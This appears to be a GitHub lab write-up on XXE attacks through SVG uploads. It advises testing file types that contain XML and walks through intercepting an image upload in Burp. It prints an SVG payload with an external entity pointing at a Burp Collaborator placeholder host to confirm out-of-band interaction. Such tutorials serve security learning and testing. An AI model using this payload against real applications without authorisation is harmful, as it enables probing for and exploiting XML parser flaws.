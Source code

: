 ### Solution


## 🖼️ SVG-Based XXE Exploitation

### 🔍 File Type Awareness

When analyzing for potential XXE vulnerabilities, **keep an eye on the accepted file types**:

- Formats like `.docx`, `.xlsx`, and `.pptx` are actually ZIP archives containing **XML files** inside.
- If the application accepts images like `.png` or `.jpg`, try uploading an `.svg` file.
  - **SVG uses XML**, and if not properly validated, it can be abused for XXE.

---

Svg file used xml to for building svg file below is svg example file in xml

![image](https://github.com/user-attachments/assets/bafeafe0-e5e0-4e05-8c35-1694e2cb8e8c)



### ⚙️ Step-by-Step Attack Flow

We can see  the image upload process in below image

![image](https://github.com/user-attachments/assets/31d72ee5-2279-460f-b2f1-945d0de1e1e9)

#### 🧪 Step 1: Test for OOB Interaction (Collaborator Check)


Intercept above request

![image](https://github.com/user-attachments/assets/0bd00ff1-e04f-4912-8b66-26522d39cab5)

Modify the request:

- Change the uploaded file to `test.svg`
- Set header: `Content-Type: image/svg+xml`
- Payload to test DNS request:

<pre>
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "http://<strong>YOUR-COLLABORATOR-ID</strong>.oastify.com"&gt; ]&gt;
&lt;svg xmlns="http://www.w3.org/2000/svg"&gt;
  &lt;text&gt;&amp;xxe;&lt;/text&gt;
&lt;/svg&gt;
</pre>

![image](https://github.com/user-attachments/assets/deb44cfb-ebcb-4184-a3e4-d3c2eb09900d)


✅ If your **Burp Collaborator** gets a ping, the parser is vulnerable to XXE.
